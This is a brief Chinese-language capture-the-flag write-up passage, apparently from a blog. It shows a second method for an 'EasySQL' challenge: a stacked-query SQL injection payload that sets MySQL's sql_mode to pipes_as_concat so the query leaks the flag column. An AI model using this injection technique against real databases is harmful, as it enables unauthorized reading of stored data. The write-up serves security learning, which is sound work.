 
#### 法2

利用**SQL的一个配置**，可以将SQL中的管道符`||`从**或运算**的含义，转换为**拼接**的作用

配置如下 `set sql_mode=pipes_as_concat;`

所以我们构造payload：`0;set sql_mode=pipes_as_concat;select 0`

传入后，原SQL语句变成 `select 0;set sql_mode=pipes_as_concat;select 0 || flag from flag`

分为三段：

1、`select 0;`  ：直接输出数据 0

2、`sql_mode=pipes_as_concat;`  ： 修改**管道符**的作用

3、`select 0 || flag from flag`  ：先`select 0 from flag` 再 `select flag from flag`。最后通过**管道符**的拼接作用，将两者的数据**拼接**起来

结果如下：

<div align=center><img src="../images/2024/08/03/2019EasySQL/2019EasySQL_2.png" alt="2019EasySQL_2" border="0" width="80%" height="60%"></div>

## 结语

加油！多刷题0.0

